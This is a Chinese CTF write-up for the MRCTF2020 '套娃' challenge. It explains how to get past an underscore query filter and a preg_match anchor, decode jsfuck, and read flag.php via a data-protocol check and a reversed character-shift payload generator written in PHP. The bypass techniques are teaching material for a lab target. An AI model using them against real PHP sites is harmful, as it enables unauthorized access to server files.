






# [MRCTF2020]套娃

## 知识点

`_传参`

`php之data伪协议`

`preg_match多行绕过`

## 解题

首先进入题目，在查看源码时发现


```php
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

第一个条件过滤了`_`和`%5f`(下划线的`url编码`)，我们可以通过`b.u.p.t`或`b u p t`来传参

第二个条件绕过`preg_match`，之前`payload`也曾写过，通过`多行匹配`绕过即可



进入`secrettw.php`后，在源码发现`jsfuck`编码



解码后为



`post`传`Merak`之后显示了文件源码



```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?> 
```

在读取文件时转换了每个字符，编写代码生成`payload`

```php
<?php


function change($v){ 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return $re; 
}

$res = change('flag.php');
echo base64_encode($res);
```

如下图传参即可


在源码查看到`flag`

